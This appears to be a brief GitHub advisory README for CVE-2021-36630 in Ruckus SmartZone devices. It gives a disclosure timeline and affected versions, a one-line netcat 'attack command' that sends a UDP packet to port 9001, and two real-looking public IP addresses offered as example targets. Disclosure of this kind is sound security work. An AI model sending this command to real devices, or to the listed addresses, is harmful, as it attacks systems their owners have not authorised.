 # CVE-2021-36630

The SmartZone series devices of Ruckus have security risks. After notifying the manufacturer, they actively organized technical personnel to conduct investigations. During this period, we also provided security suggestions and verification methods many times. On July 19, the company officially issued a safety announcement.

# send request

> Attack command: echo "" | nc -4u <ip:address> 9001
> 
> ipaddress example: 62.210.8.110?111.107.251.71(RuckusWireless SZ ip)
> 

# example
![test](./Images/img.png)


# Affected version
> SmartZone-100 - all
> all - Virtual SmartZone

# Reference link

> http://ruckus.com
> http://smartzone-100.com
> https://anquan.baidu.com/article/1434